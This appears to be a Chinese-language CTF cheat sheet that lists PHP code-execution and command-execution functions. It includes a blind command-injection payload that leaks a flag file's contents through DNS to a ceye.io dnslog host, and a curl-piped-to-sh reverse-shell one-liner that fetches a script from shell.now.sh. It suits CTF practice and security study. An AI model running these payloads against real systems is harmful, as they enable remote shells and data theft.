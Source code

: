 - PHP代码执行的几种方式：

  ```
  ${}执行代码
  eval
  assert
  preg_replace
  create_function()
  array_map()
  call_user_func()/call_user_func_array()
  array_filter()
  usort(),uasort()
  ```

- PHP命令执行的几种方式：

  ```
  system()
  passthru()
  exec()
  shell_exec()
  `反引号
  ob_start()
  mail函数+LD_PRELOAD执行系统命令
  ```

- 类似于`system("ping ".$ip);`这种测试没有回显，可采用dnslog的方式来查看回显：

  ```
  ping `cat where_is_flag.php|sed 's/[[:space:]]/xx/g'`.******.ceye.io
  # 因为域名中不允许有空格，但是php代码中可能会含有空格，所以使用sed命令将php代码的空格替换为xx
  ```

- curl 的 `-s` 参数可以不输出传输过程的信息。

  ```
  [Go0s]: ~/Desktop 
  ➜  curl bodkin.ren | html2text   
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100    32  100    32    0     0    681      0 --:--:-- --:--:-- --:--:--   695
  Baby, you have to be good! :-)

  [Go0s]: ~/Desktop 
  ➜  curl -s bodkin.ren | html2text
  Baby, you have to be good! :-)
  ```

- 如果平时记不住反弹shell的命令，就可以用这个项目一键生成一个反弹shell的脚本，只需要将你服务端的IP和端口写在path中，`shell.now.sh/10.0.0.1:443` 然后下载执行这个脚本即可，它会尝试多种反弹shell的方式。

  ```
  curl -s https://shell.now.sh/192.168.0.69:1337 | sh
  ```

  ​